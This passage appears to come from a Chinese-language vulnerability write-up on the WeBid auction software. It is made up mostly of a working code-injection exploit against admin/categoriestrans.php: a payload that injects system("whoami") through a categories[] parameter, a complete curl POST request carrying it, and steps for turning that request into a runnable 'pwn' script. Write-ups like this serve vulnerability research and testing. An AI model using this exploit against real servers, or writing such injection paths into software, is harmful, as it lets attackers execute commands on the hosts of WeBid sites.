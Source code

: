 ```bash
categories[123);system("whoami");/*]=test
```

也可以使用命令行：

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Cookie: PHPSESSID=vnl6peqqqk68l3pfdvf6f7om92' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-Fetch-Dest: document' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Site: none' -H $'Sec-Fetch-User: ?1' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 41' \
    -b $'PHPSESSID=vnl6peqqqk68l3pfdvf6f7om92' \
    --data-binary $'categories[123);system(\"whoami\");/*]=test' \
    $'http://localhost/Webid/admin/categoriestrans.php?lang=..'
```

### 漏洞利用

删除没有必要的信息，加上自己的信息，然后就可以运行脚本了：

```bash
sed 's/-H/\\\n-H/g' pwn    				# 换行
sed -i 's/-H/\\\n-H/g' pwn				# 和上一个命令一样，但是不输出到终端
```

然后手动删减一下：

```bash
curl -i -s -k -X $'POST' \
    \
-H $'Host: localhost' \
-H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0' \
-H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
-H $'Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh\
-HK;q=0.5,en-US;q=0.3,en;q=0.2' \
-H $'Accept-Encoding: gzip, deflate' \
-H $'Connection: close' \
-H $'Cookie: PHPSESSID=vnl6peqqqk68l3pfdvf6f7om92' \
-H $'Upgrade-Insecure-Requests: 1' \
-H $'Sec-Fetch-Dest: document' \
-H $'Sec-Fetch-Mode: navigate' \
-H $'Sec-Fetch-Site: none' \
-H $'Sec-Fetch-User: ?1' \
-H $'Content-Type: application/x-www-form-urlencoded' \
-H $'Content-Length: 41' \
    -b $'PHPSESSID=vnl6peqqqk68l3pfdvf6f7om92' \
    --data-binary $'categories[123);system(\"whoami\");/*]=test' \
    $'http://localhost/Webid/admin/categoriestrans.php?lang=..'
```
